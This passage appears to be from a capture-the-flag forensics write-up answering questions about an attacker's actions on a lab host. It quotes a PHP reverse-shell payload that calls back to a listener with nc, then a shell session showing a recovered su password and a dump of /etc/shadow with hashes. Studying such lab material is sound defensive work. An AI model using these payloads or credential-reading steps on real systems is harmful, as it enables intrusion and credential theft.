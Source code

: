 `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

5. What password did the attacker use to privesc?

```
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@overpass-production:/var/www/html/development/uploads$ ls -lAh
ls -lAh
total 8.0K
-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass
cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.www-data@overpass-production:/var/www/html/development/uploads$ su james
su james
Password: whenevernoteartinstant
```

`whenevernoteartinstant`

7. How did the attacker establish persistence?

```
User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
```